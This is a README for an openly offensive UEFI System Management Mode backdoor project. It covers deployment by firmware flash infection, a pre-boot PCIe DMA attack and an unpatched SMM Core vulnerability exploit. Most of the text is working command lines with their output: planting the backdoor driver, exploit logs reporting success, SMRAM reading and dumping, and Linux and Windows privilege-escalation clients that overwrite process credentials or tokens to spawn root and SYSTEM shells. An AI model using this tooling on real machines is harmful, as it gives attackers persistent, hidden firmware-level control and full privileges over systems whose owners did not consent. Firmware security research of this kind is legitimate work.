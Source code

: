 
# SMM Backdoor Next Gen

## General Information

This version of System Management Mode backdoor for UEFI based platforms was heavily inspired by [my previous project](http://blog.cr4.sh/2015/07/building-reliable-smm-backdoor-for-uefi.html) (check [its GitHub repository](https://github.com/Cr4sh/SmmBackdoor)) but introducing few key changes in order to make it more up to date:

 * In addition to the usual firmware flash image infection method as described in the article, new SMM backdoor also can be deployed with pre-boot DMA attack using [PCI Express DIY hacking toolkit](https://github.com/Cr4sh/s6_pcie_microblaze) (see [uefi_backdoor_simple.py](https://github.com/Cr4sh/s6_pcie_microblaze/blob/master/python/uefi_backdoor_simple.py) program usage for more details) and industry-wide EFI SMM Core [vulnerability exploitation](https://github.com/Cr4sh/SmmBackdoorNg/blob/main/src/exploit.c) to perform DXE to SMM execution transition. The vulnerability was discovered by myself and reported to Intel PSIRT years ago, but it still remains not patched on many products that using EDK2 derived firmware code, including whole [AMI Aptio](https://www.ami.com/aptio/) family.

 * Client program `smm_backdoor.py` supports Windows and Linux systems and can interact with SMM backdoor using SW SMI (requires high privileges and [chipsec](https://github.com/chipsec/chipsec) installed) or APIC periodic timer method that can work with any privileges level.

 * There's `smm_backdoor_privesc_linux.py` and `smm_backdoor_privesc_win.py` test client programs for SMM backdoor that demonstrating local privileges escalation under Windows and Linux by using its API provided by `smm_backdoor.py` library.

 * SMM backdoor is fully virtualization-aware now, its library and client programs can work as expected inside Windows or Linux virtual machines running on the infected host system.

## Backdoor Usage

Project documentation is incomplete at this moment, but here's some command line examples.

Deploying SMM backdoor using pre-boot DMA attack:

```
# python2 uefi_backdoor_simple.py --driver SmmBackdoorNg_X64.efi
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from SmmBackdoorNg_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x49a0
Backdoor entry RVA is 0x20fc
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c20fc
1.852231 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```

Basic use of SMM backdoor `smm_backdoor.py` client program:

```
# python2 smm_backdoor.py --debug
****** Chipsec Linux Kernel module is licensed under GPL 2.0
[+] Obtaining backdoor debug information...
[+] Debug output buffer physical address is 0x79da4000

00000001 - backdoor.c(1573) : ******************************
00000002 - backdoor.c(1574) :
00000003 - backdoor.c(1575) :   SMM backdoor loaded
00000004 - backdoor.c(1576) :
00000005 - backdoor.c(1577) : ******************************
00000006 - backdoor.c(1589) : Resident code base address is 0x79d9f000
00000007 - backdoor.c(1502) : BackdoorResidentDma()
00000008 - backdoor.c(313) : Protocol notify handler is at 0x79d9f364
00000009 - backdoor.c(1423) : SMM access 2 protocol is at 0x778fe650
00000010 - backdoor.c(1424) : Available SMRAM regions:
00000011 - backdoor.c(1434) :  * 0x7b000000:0x7b000fff
00000012 - backdoor.c(1434) :  * 0x7b001000:0x7b7fffff
00000013 - exploit.c(242) : SMM communicate header is at 0x79da2ae0
00000014 - exploit.c(256) : Executing SMM callback...
00000015 - backdoor.c(1215) : Running in SMM
00000016 - backdoor.c(1216) : SMM system table is at 0x7b7f84c0
00000017 - backdoor.c(1177) : Max. SW SMI value is 0xff
00000018 - backdoor.c(1188) : SW SMI handler is at 0x7b5effb8
00000019 - exploit.c(271) : Communicate(): status = 0xe, size = 0x19
00000020 - exploit.c(277) : Exploit(): Exploitation success
00000021 - backdoor.c(409) : SmmCtlHandle(): Periodic timer SW SMI was enabled
00000022 - backdoor.c(1328) : new_SetVirtualAddressMap()
00000023 - backdoor.c(1369) : New address of the resident image is 0xfffffffeec79f000
```
```
# python2 smm_backdoor.py --use-timer --test
[+] Checking if SMM backdoor is present...
[+] Obtaining information...

  CR0 = 0x80000033
  CR3 = 0x7b7b1000
 SMST = 0x7b7f84c0

[+] SMRAM regions:

 * 0x7b000000:7b000fff
 * 0x7b001000:7b7fffff
```
```
# python2 smm_backdoor.py --use-timer --read-phys 0x7b000000 --size 0x80
7b000000: 53 4d 4d 53 33 5f 36 34 90 c5 7d 7b 00 00 00 00 | SMMS3.64........
7b000010: 00 60 7a 7b 00 00 00 00 00 80 00 00 00 00 00 00 | ..z.............
7b000020: 33 00 00 80 00 00 00 00 00 10 7b 7b 00 00 00 00 | 3...............
7b000030: 68 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | h...............
7b000040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................
7b000050: 00 00 00 00 00 00 00 00 00 00 c0 84 7f 7b 00 00 | ................
7b000060: 00 00 e1 13 e0 12 e0 12 f0 12 e1 13 f1 03 f1 03 | ................
7b000070: f1 02 e1 13 e0 12 e0 12 e0 02 e1 13 f1 03 f1 03 | ................
```
```
# python2 smm_backdoor.py --dump-smram
****** Chipsec Linux Kernel module is licensed under GPL 2.0
[+] Dumping SMRAM regions, this may take a while...
[+] Creating SMRAM_dump_7b000000_7b7fffff.bin
```

Example of `smm_backdoor_privesc_linux.py` client program usage:

```
$ python2 smm_backdoor_privesc_linux.py
[+] Initializing SMM backdoor client...
[+] User CR3 = 0x271b14000
[+] LSTAR = 0xffffffff81e00010
[+] do_syscall_64() is at 0xffffffff810025c0
[+] sys_call_table() is at 0xffffffff822001a0
[+] sys_getuid() is at 0xffffffff81073c10
[+] task_struct offset is 0x14d40
[+] cred offset is 0x628
[+] IA32_KERNEL_GS_BASE = 0xffff888277a00000
[+] Process task_struct is at 0xffff88827148db00
[+] Process cred is at 0xffff88827289d000
[+] Overwriting process credentials...
[+] Done, spawning root shell...

sh-4.4# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),26(tape),27(video)
```

Example of `smm_backdoor_privesc_win.py` client program usage:

```
PS C:\> python2 smm_backdoor_privesc_win.py
[+] Initializing SMM backdoor client...
[+] NT version is 10.0.19041
[+] _EPROCESS Token offset is 0x04b8
[+] _KPCR KernelDirectoryTableBase offset is 0x9000
[+] _KPCR structure is at 0xfffff8005f486000
[+] KVA shadow is disabled or not present
[+] Kernel CR3 value is 0x0000000141491000
[+] Token object address is 0xffffcd0ef752c060
[+] Present privileges: 0x1e73deff20 -> 0x1ff2ffffbc
[+] Enabled privileges: 0x60900000 -> 0x1ff2ffffbc
[+] Current process object address is 0xffffa60de954a080
[+] System process object address is 0xffffa60de12dd080
[+] Overwriting process token...
[+] Done, spawning SYSTEM shell...

Microsoft Windows [Version 10.0.19041.208]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\> whoami
nt authority\system
```

## About

Developed by:<br />
Dmytro Oleksiuk (aka Cr4sh)

[cr4sh0@gmail.com](mailto:cr4sh0@gmail.com)<br />
[http://blog.cr4.sh](http://blog.cr4.sh)
